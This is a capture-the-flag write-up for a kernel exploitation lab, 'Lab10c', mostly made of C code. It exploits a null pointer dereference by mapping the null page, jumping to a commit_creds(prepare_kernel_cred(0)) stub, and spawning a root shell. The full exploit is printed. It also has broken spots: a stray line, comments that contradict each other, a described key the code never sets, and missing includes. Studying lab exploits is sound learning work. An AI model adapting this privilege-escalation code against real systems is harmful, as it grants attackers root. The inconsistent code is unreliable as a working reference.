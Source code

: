 # OTAu: Lab10c

The challenge was the first one from the OTAu with kernel challenge, and probably second kernel pwn challenge I did for myself after RopeTwo's root part which also involved the kernel exploitation challenge.

# Overview

Given challenge had a `lab10c.ko` and it was just modified version of the MBE's original challenge named `lab10c`. The original challenge had the same vulnerability as of this but a slight modification, so nothing too fancy.

> Vulnerability: Null Pointer De-reference, the `0x400` was being referenced once you authorize yourself with right key, and since that memory doesn't exists, we can take advantage of by mmap'ng a page.

# Exploitation

* Since the `/proc/kallsyms` file is readable and the KASLR and pretty much every mitigation is disabled, just get the `commit_creds` and `prepare_kernel_creds` address from it.
* `mmap` a page at the `0x0` with:-

```C
long *addr =(long *)  mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,
                MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);`
```

* Authorize with the right key being:-

```C
    buf[3] = 0x14;
    buf[2] = 0x53;
    buf[1] = 0x04;
    buf[0] = 0x51;
```

* Copy the instruction `jmp &get_root` to the `mmap` memory, where the `get_root` function is:-

```C
void get_root()
{
    commit_creds(prepare_kernel_cred(0));
}
```

```C
    void **fn = 0x400; //due to the way the fp is called, we start at 0x600

    /* We copy the asm from our stub to the mapped page */
    /* Debugging showed we can't simply put a pointer to our get_root function there */
    jmp[0] = 0xE9; // Near jump
    *(int*)(jmp + 1) = &get_root - 0x405;
    memcpy(fn, jmp, 5); //get_root can also be used here.

```
> The `commit_creds(prepare_kernel_creds(0))` will make the running process have the UID of 0 i.e. of root.

* Make the first write by sending the `buf`.

* Now, in the second time, the referenced memory would've been NULL'd out so, once we send the `buf` second time, it'll access the `0x400` and since we `mmap` a memory space with the initial address being `0`.

* Now, just call the `systen("/bin/sh)` and you'll have a root shell.


# Exploit


```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>

#define BUF_SIZE 512

struct cred;
struct task_struct;

/* Definitions for commit_creds and prepare_kernel_cred */
typedef struct cred *(*prepare_kernel_cred_t)(struct task_struct *daemon)
  __attribute__((regparm(3)));

typedef int (*commit_creds_t)(struct cred *new)
  __attribute__((regparm(3)));

prepare_kernel_cred_t prepare_kernel_cred;
commit_creds_t commit_creds;

/*
* Get the kernel addresses of symbols
*/
void *get_ksym(char *name) {
    FILE *f = fopen("/proc/kallsyms", "rb");
    char c, sym[512];
    void *addr;
    int ret;

    while(fscanf(f, "%p %c %s\n", &addr, &c, sym) > 0)
        if (strcmp(sym, name) == 0)
    {
        printf("[+] Found address of %s at 0x%p [+]\n", name, addr);
            return addr;
    }
    return NULL;
}

/*
* set uid/gid of current task to 0 (root) by commiting a new 
* kernel cred struct. This is run in ring 0.
*/
void get_root()
{
    commit_creds(prepare_kernel_cred(0));
}

/*
* Here we use inline asm to call the get_root function.
* We dont actually need this, but it taught me how to
* use inline assembly to create shellcode stubs.
* This is run in ring 0.
*/



int main()
{
    /* get the addresses of the functions we need */
    commit_creds = get_ksym("commit_creds");
    prepare_kernel_cred = get_ksym("prepare_kernel_cred");

    if(!commit_creds || !prepare_kernel_cred)
    {
        printf("[x] Error getting addresses from kallsyms, exiting... [x]\n");
        return -1;
    }

    char *buf = malloc(BUF_SIZE);
    char jmp[5];    

    /* To trigger the exploit, the first 4 bytes must equal 0xcafebabe */
    memset(buf, 0x00, BUF_SIZE);
    // Now trigger it again, forcing a `call 0`
    printf("Triggering algo check\n");
c
   long *addr =(long *)  mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,
                MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);

    if(addr == -1)
    {
        printf("mmap error\n");
        return -1;
    }

    printf("[+] mapped null page [+]\n");

        void **fn = 0x400; //due to the way the fp is called, we start at 0x600

    /* We copy the asm from our stub to the mapped page */
    /* Debugging showed we can't simply put a pointer to our get_root function there */
    jmp[0] = 0xE9; // Near jump
    *(int*)(jmp + 1) = &get_root - 0x405;
    memcpy(fn, jmp, 5); //get_root can also be used here.

    printf("[+] Mapped Null Page and copied code [+]\n");
    printf("[+] %x points to %p [+]\n", fn, *fn);

    /* Here we do the first call to pwn_write */
    /* We fail authentication, causing the function pointer to be nulled */
        int fd = open("/dev/lab10c", O_RDWR);

    if(fd < 0)
    {
        printf("[x] Unable to open device /dev/lab10c, exiting.... [x]\n");
        return -1;
    }

        int ret = write(fd, buf, BUF_SIZE);

    printf("[+] First write returned %x [+]\n", ret);
    printf("[+] Triggering vulnerability through second call [+]\n");

    int fd_trigger = open("/dev/lab10c", O_RDWR);
    write(fd_trigger, buf, BUF_SIZE); 

    close(fd);
    close(fd_trigger);

    printf("[!!!] Enjoy your root shell [!!!]\n");
    system("/bin/sh");
    return 0;

}
```